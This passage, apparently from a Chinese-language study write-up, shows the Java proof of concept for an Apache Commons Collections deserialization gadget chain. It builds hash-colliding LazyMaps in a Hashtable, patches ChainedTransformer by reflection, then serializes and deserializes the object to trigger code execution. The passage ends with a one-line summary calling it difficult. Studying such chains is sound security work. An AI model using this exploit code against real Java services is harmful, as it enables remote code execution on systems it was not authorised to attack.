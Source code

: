 ```java
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, fakeTransformers);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, fakeTransformers);
        lazyMap2.put("zZ", 1);
        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeTransformers,transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

# 总结

这个有点难。